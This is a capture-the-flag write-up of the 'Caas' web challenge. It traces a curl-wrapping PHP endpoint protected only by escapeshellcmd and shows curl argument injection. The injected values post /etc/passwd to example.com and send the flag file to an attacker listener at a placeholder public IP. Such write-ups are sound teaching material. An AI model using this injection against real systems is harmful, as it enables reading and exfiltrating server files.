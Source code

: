 # Caas
![screenshot](https://github.com/0x0ff3ns1v3/CTF-WriteUps/edit/main/Cyber Apolcalypse 2021/Pasted image 20210419183444.png)
![Image](https://github.com/0x0ff3ns1v3/CTF-WriteUps/edit/main/Cyber Apolcalypse 2021/Pasted image 20210419183444.png)

The website gives the ability to request a URL through javascript. The following shows the javascript request.
```bash
...snip...
fetch('/api/curl', {
      method: 'POST',
      body: `ip=${host}`,
      headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
      }
    })
...snip...
```

Reading the source code shows the _api/curl_ references the _CurlController_ file and uses the _execute_ function.
```bash
...snip...
$router->new('POST', '/api/curl', 'CurlController@execute' );
...snip...
```

This then gets passed to CommandModel.php as shown
```bash
...snip...
$command = new CommandModel($url);
...snip...
```

Finally, it reaches the point of execution on the file system.
```bash
...snip...
$this->command = "curl -sL " . escapeshellcmd($url);
...snip...
exec($this->command, $output);
...snip...
```

We see that the _escapeshellcmd_ is used and the command being executed is curl. This is not good as it will  do the following " Following characters are preceded by a backslash: ``&#;`|*?~<>^()[]{}$\``, `\x0A` and `\xFF`. `'` and `"` are escaped only if they are not paired. On Windows, all these characters plus `%` and `!` are preceded by a caret (`^`)." Luckily, curl has the ability to read a local file and send it to remote URL with the syntax as shown below.
```bash
$url = '-F password=@/etc/passwd http://example.com';
```

We must investigate where the web server is being hosted so we know where to read the file from. Reading the nginx conf shows the root located at /www
```bash
...snip...
root /www;
...snip...
```

Using this information, we can simply request the flag and send the request to our host machine. However, we must ensure the host is internet accessible. We can send the following command after setting up a nc listener on port 8000.

```bash
curl http://178.62.50.172:31782/api/curl -X POST -d 'ip=-F password=@/www/flag http://<PUBLIC IP ADDRESS>:8000'
```

